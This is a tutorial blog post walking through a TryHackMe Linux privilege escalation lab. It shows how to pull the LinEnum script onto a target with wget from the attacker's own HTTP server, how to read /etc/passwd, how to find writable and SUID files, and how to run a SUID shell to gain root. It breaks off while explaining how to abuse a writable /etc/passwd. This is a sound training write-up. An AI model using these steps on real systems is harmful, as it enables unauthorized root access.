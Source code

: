 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks <span class="highlight">1</span>, <span class="highlight">2</span> and <span class="highlight">3</span> don't need explanation.

## Task 4 : Enumeration

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

* * *
<p class="answer">Answer : there are 8 user[x] in the system.</p>
* * *
For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shells there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

* * *
<p class="answer">Answer : There are 4 shells in the system</p>
* * *

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

* * *
<p class="answer">Answer : The autoscript.sh file is located in the "/home/user4/Desktop" directory</p>
* * *

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5 : Abusing SUID/SGID Files

Checking for files with the `SUID/SGID` bit set is the go-to when first getting a shell on a machine if what we want is to escalata privileges.

If the `SUID` bit is set on a file, it means that the file will be executed with the same permissions as the owner of the file.
If the `SGID` bit is set on a file, the file will be executed with the permissions of the group that owns the file.
<p class="highlight">Important : SUID and SGID have different behaviour when they are set in directories</p>

In order to find files with the SUID bit set, we can have a look at our `LinEnum` scan, or we can search them manually :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/find%20suid%20files5.png" class="border" />

```
find / -perm -u=s -type f 2>/dev/null
```
>Again, we are using `find` with its `-perm` option, this time we specify that we want any of the permission bits set (`-u=s`) and we use `-type f` so that it only returns files.

It seems that there is an uncommon file with the SUID bit set : 

* * *
<p class="answer">Answer : /home/user3/shell</p>
* * *

Due to `shell` having the SUID set, we can execute it and gain superuser privileges on the machine :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/root5.png" class="border" />

```
ls -l /home/user3/shell
./shell
```
>To check if a file has the `SUID/SGID` bit set, we look at its permissions.
>
>If they are : `rws-rwx-rwx`, the `SUID` bit is set.
>
>If they are : `rwx-rws-rwx`, the `SGID` bit is set.
>
><p class="highlight"> Notice that they are marked with the character "s".</p>

## Task 6 : Exploiting writeable /etc/passwd

The `/etc/passwd` file stores valuable account information, <span class="highlight">it doesn't contain passwords</span>, it contains a list of the accounts of the system and it provides information about each and every of them, such as user ID, group ID, home directory, etc.
This file needs to have read permissions because other utilities require them to properly work, however it must not have write permissions except for the root account.
When a user can write in the /etc/passwd file, it can lead to a security breach, which is what we are going to exploit right about now :

What direction privilege escalation is the attack?

<span class="highlight">Horizontal privilege escalation</span> Occurs when we take over a user who is on the same privilege level as us.

<span class="highlight">Vertical privilege escalation</span> takes place when we want to access an account which privileges are higher than ours.

* * *
<p class="answer"> Answer : Vertical</p>
* * *

The way to exploit the vulnerability that we have found (which is that /etc/passwd can be writen to by a non-superuser account) is adding a new line of text to /etc/passwd with the intention of creating a new account in the system, with the password that we decide, and superuser privileges.

**How is the /etc/passwd structured?**

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 text-shadow : 0px 0px 4px #ADFF2F }
 .highlight {
 text-shadow : 0px 0px 4px #ff6699 }
</style>
